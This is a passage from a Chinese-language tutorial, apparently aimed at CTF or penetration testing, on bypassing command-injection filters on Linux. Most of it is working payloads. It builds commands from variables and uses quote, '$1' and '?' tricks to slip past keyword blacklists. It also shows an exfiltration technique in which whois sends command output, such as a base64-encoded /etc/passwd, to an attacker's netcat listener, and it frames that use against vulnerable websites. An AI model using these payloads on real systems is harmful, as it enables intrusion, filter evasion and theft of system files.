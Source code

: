 符号&在linux中，多个命令同时执行，不管前面命令执行成功没有，后面的命令继续执行

根据以上几点结合一个：

```bash
t=l; j=s; i=" -al"; $t$j$i
```

![0tkS3R.png](https://s1.ax1x.com/2020/10/05/0tkS3R.png)

### 1.2 利用未被过滤的命令

```php
自己服务器中：nc -lvvp 端口
payload发送给对方：whois -h ip -p 端口 `命令` //``为反引号
//下图以自身服务器的1234端口作演示，实际情况根据个人更改
```

![0tkN2n.png](https://s1.ax1x.com/2020/10/05/0tkN2n.png)

![0tkt8s.png](https://s1.ax1x.com/2020/10/05/0tkt8s.png)

使用whois来执行命令和传输文件

在实际的攻击场景中，可以在自己的攻击服务器上用nc监听一个公网端口，然后在存在命令执行漏洞的网站中发送payload请求，
对它使用whois命令使其命令执行结果返回给nc监听的端口，从而在自己服务器中查看

```bash
传输机：
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
接受机：
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```

### 1.3 linux进阶，符号之间的组合

Linux下，**双引号**和**幂运算符**号都不会影响命令的执行

```bash
whoami
wh$1oami
wh$@oami
who""""ami
whoa$*mi

c$1at /f$1lag
```

在linux中?扮演的角色是匹配任意一个字符，用?来绕过限制

```bash
which whoami //找到whoami路径
# whoami: /usr/bin/whoami /usr/share/man/man1/whoami.1.gz

/u?r/?in/wh?am?

which ifconfig //找到ifconfig
# /sbin/ifconfig
/sbin/if?onfig
```
